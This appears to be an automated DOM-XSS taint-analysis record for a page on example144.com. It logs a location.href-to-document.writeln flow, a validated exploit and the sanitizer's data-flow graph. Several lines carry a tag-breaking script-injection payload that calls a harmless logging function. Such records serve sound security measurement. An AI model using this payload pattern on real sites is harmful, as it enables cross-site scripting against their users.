 // Finding: b1e72289-79c5-4e49-9a40-2199c249725a
// Finding.url: https://example144.com/registrar/academics/academic-calendar.php##</iframe></style></script></object></embed></textarea><script>taintfoxLog('2626f69c17364c738598edf309d44a65')</script><!--/*
// Finding.parentloc: https://example144.com/registrar/academics/academic-calendar.php##</iframe></style></script></object></embed></textarea><script>taintfoxLog('2626f69c17364c738598edf309d44a65')</script><!--/*
// Finding.domain: example144.com
// Finding.base_domain: example144.com
// Finding.source: location.href
// Finding.sink: document.writeln
// Sanitizer.score: 1
// Sanitizer.name: formatFileName
// Sanitizer.location: https://example144.com/registrar/academics/academic-calendar.php##</iframe></style></script></object></embed></textarea><script>taintfoxLog('2626f69c17364c738598edf309d44a65')</script><!--/* - <anonymous>:253:9
// Finding.begin: 339
// Finding.end: 340
// Finding.original_uuid: 05d937d7-01ec-477f-ae47-800717ad2a66
// Finding.TwentyFiveMillionFlowsId: -1346202095
// Finding.script: https://example144.com/registrar/academics/academic-calendar.php##</iframe></style></script></object></embed></textarea><script>taintfoxLog('2626f69c17364c738598edf309d44a65')</script><!--/*
// Finding.line: 269
// Exploit.uuid: 2626f69c-1736-4c73-8598-edf309d44a65
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: A
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 23
// Exploit.end_taint_url: 24
// Exploit.replace_begin_url: 57
// Exploit.replace_end_url: 57
// Exploit.replace_begin_param: 132
// Exploit.replace_end_param: 132
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1909814929
// DepGraph.sanitizer_hash: 1909814929

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /_|-/"];
n3 [shape=box, label="Lit:  "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="regex_exec"];
n6 [shape=box, label="RegExp: /(^|\s)[a-z]/"];
n7 [shape=box, label="Lit: 0"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="strtoupper"];
n10 [shape=box, label="Var: x"];
n11 [shape=box, label="Var: x"];
n12 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n10 -> n5;
n9 -> n10;
n11 -> n9;
n12 -> n11;
}